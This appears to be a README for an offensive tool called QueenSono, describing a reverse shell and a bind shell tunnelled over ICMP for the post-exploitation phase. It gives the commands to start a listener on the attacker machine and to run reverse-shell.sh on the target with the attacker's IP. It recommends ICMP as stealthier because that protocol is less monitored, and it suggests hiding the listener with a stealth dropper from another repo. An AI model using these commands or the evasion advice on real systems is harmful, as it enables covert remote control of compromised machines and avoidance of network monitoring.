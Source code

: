 # Hack

Some fun thing with `QueenSono`

## Reverse Shell
<h5 align="center">In <code>QueenSono/hack/reverse-shell</code></h5>

<p align="center"> It a "reverse shell" trough ICMP so it is quite ordinary if it takes time or if all commands are not well treated</p>

### Use case
***In Post exploitation phase:*** if ICMP is less monitored than other protocol (eg TCP), having a reverse shell trough `QueenSono` is more more stealthy.

#### How to do it
*> On the attacker machine:* Put your listener
```
./listener.sh <ip_listening_for_icmp>
```

*> On the target machine:* Provide the reverse shell
```
./reverse-shell.sh <ip_attacker> <ip_listening_for_icmp>
```


### Bindshell

Sometimes, and for the ***post exploitation*** phase it is more suited, you need a bind shell. That is to say the `listener` will be on the "compromised" machine and the attacker will "bind" this shell.

*Product placement: To be stealthly, you `listener` should use a dropper and hide its presence. You could find a stealth dropper example in [curlNExec](https://github.com/ariary/curlNexec) repo. Could I adapt it to use ICMP ? 🤔*
